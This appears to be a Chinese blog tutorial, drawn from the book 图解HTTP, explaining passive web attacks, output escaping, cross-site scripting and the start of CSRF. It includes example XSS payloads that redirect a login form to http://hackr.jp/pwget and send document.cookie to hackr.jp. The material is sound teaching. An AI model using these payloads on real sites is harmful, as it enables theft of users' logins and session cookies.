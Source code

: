 # 认识HTTP----Web安全与攻击手段

**本文内容大多参考[《图解HTTP》一书](https://book.douban.com/subject/25863515/)**

## 关于Web的攻击手段
目前，互联网攻击大多是针对应用HTTP协议的服务器和客户端，以及运行在服务器上的Web应用等资源，本文主要针对Web应用的攻击技术进行简单分析。

### 针对Web应用的攻击模式

对Web应用的攻击模式有以下两种。

- 主动攻击
主动攻击（active attack）是指攻击者通过直接访问Web 应用，把攻击代码传入的攻击模式。由于该模式是直接针对服务器上的资源进行攻击，因此攻击者需要能够访问到那些资源。

![这个攻击者没法吐槽](http://upload-images.jianshu.io/upload_images/4337988-3b2645de43c3de0c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 被动攻击
被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式。在被动攻击过程中，攻击者不直接对目标Web 应用访问发起攻击。
被动攻击通常的攻击模式如下所示。
1. 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发送已嵌入攻击代码的HTTP 请求。
2. 当用户不知不觉中招之后，用户的浏览器或邮件客户端就会触发这个陷阱。
3. 中招后的用户浏览器会把含有攻击代码的HTTP 请求发送给作为攻击目标的Web 应用，运行攻击代码。
4. 执行完攻击代码，存在安全漏洞的Web 应用会成为攻击者的跳板，可能导致用户所持的Cookie 等个人信息被窃取，登录状态中的用户权限遭恶意滥用等后果。被动攻击模式中具有代表性的攻击是跨站脚本攻击（xss）和跨站点请求伪造（CSRF/XSRF）。

![](http://upload-images.jianshu.io/upload_images/4337988-72423c77abb5909d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### 因输出值转义不完全引发的安全漏洞
实施Web 应用的安全对策可大致分为以下两部分。
- 客户端验证
- Web应用端（服务器）验证
    - 输入值验证
     - 输出值转义

![](http://upload-images.jianshu.io/upload_images/4337988-511ebfb85ffa5947.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

多数情况下采用JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭JavaScript，不适合将JavaScript 验证作为安全的防范对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高UI 体验的作用。
Web 应用端的输入值验证按Web 应用内的处理则有可能被误认为是具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。
从数据库或文件系统、HTML、邮件等输出Web 应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害。

## 跨站脚本攻击（XSS）
跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或者Javascript的一种攻击。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。
跨站脚本攻击有可能造成以下影响：
- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片（莫名其妙的广告）。
### 简单例子

**在动态生成HTML处发生：**

下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示了用户输入的个人信息内容。

![跨站脚本攻击案例](http://upload-images.jianshu.io/upload_images/4337988-f42a8f9323739e75.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口
一郎这样的HTML 标签的字符串。

![按照输入内容原样显示的机制](http://upload-images.jianshu.io/upload_images/4337988-ec25584204f71ee4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

此时的确认界面上，浏览器会把用户输入的`<s>` 解析成HTML 标签，然后显示删除线。
删除线显示出来并不会造成太大的不利后果，但如果换成使用script 标签将会如何呢。

## XSS 是攻击者利用预先设置的陷阱触发的被动攻击

跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。
下图网站通过地址栏中URI 的查询字段指定ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。

![](http://upload-images.jianshu.io/upload_images/4337988-23e6fa19d23f219e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的URL。并隐藏植入事先准备好的欺诈邮件中或Web 页面内，诱使用户去点击该URL。

```
http://example.jp/login?ID="><script>var+f=document⇒
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method=⇒
"get";</script><span+s="
```

浏览器打开该URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID 和密码之后，就会直接发送到攻击者的网站（也就是hackr.jp），导致个人登录信息被窃取。

![](http://upload-images.jianshu.io/upload_images/4337988-d9c24bd7a2426f2b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。

**对 http://example.jp/login?ID=yama 请求时对应的HTML源代码（摘录）**

```html
<div class="logo">
![](/img/logo.gif)
</div>
<form action="http://example.jp/login" method="post" id="login">
<div class="input_id">
ID <input type="text" name="ID" value="yama" />
</div>
```
```html
**http://example.jp/login?ID="><script>var+f=document.getElementById
("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script>
<span+s="对请求时对应的HTML源代码（摘录）**
```
```html
<div class="logo">
![](/img/logo.gif)
</div>
<form action="http://example.jp/login" method="post" id="login">
<div class="input_id">
ID <input type="text" name="ID" value=""><script>var f=document⇒
.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method=⇒
"get";</script><span s="" />
</div>
```
### 对用户Cookie的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的Cookie 信息。
`<script src=http://hackr.jp/xss.js></script>`
该脚本内指定的http://hackr.jp/xss.js 文件。即下面这段采用JavaScript 编写的代码。
```js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```
在存在可跨站脚本攻击安全漏洞的Web 应用上执行上面这段JavaScript 程序，即可访问到该Web 应用所处域名下的Cookie 信息。然后这些信息会发送至攻击者的Web 网站（http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的Cookie 信息了。

![使用XSS 攻击夺取Cookie 信息](http://upload-images.jianshu.io/upload_images/4337988-73e389217a5eca2a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 跨站点请求伪造(CSRF)
跨站点请求伪造（Cross-Site Request Forgeries，CSRF）攻击是指攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。
跨站点请求伪造有可能会造成以下等影响。
- 利用已通过认证的用户权限更新设定信息等
- 利用已通过认证的用户权限购买商品
- 利用已通过认证的用户权限在留言板上发表言论
### 跨站点请求伪造的攻击案例
下面以留言板功能为例，讲解跨站点请求伪造。该功能只允许已认证并登录的用户在留言板上发表内容。

![跨站点请求伪造的攻击案例](http://upload-images.jianshu.io/upload_images/4337988-aa8130ff059c20c4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在该留言板系统上，受害者用户A 是已认证状态。它的浏览器中的Cookie 持有已认证的会话ID（步骤①）
攻击者设置好一旦用户访问，即会发送在留言板上发表非主观行为产生的评论的请求的陷阱。用户A 的浏览器执行完陷阱中的请求后，留言板上也就会留下那条评论（步骤②）。
触发陷阱之际，如果用户A 尚未通过认证，则无法利用用户A 的身份权限在留言板上发表内容。